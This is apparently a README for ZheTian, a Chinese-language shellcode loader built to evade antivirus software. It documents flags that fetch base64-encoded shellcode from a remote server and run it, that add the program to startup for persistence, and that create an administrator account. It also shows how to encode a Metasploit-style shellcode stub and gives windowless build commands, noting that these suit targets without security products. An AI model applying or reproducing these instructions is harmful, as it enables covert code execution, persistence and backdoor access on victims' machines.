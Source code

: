 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，免杀shellcode加载框架

### 命令详解

> -u  string：从远程服务器加载base64混淆后的字节码。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
>-m boolean：参数为true自动向启动项添加自启模块。
>
>-o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，同理砍去了其他功能，只保留了ShellCode Loader
>
>-n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

## `·`如果releases里下载的可执行程序被安全软件查杀了，请下载源码重新编译一份！`·`

## 新增命令-o详解：

> 该命令主要是向用户目录下创建tmp文件夹，然后生产只包含shellcode的程序，体积小了五六倍，极致压缩，并且无任何回显。由于ShellCode写死在了程序内，所以导致用一段时间就会被查杀。
>
> 注意使用该命令需填充shellcode，同时拥有go环境。搭配-s、-u、-c、-r其中的任意命令即可，如：ZheTian -s payload.c -o true

## 示例：

### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行。但是360偶尔会识别为恶意程序。如果目标机器无安全设备，可以尝试使用此命令打包，然后使用参数： ` -o true` 实现写入启动项功能。

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")

### 注意：打包的时候需指定是64位还是32位。默认会根据系统自动选择。 而在生成payload shellcode的时候也需要选择正确的位数，否则会加载失败。使用code字节码加载时一定要使用base64加密，否则无法解析！！

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
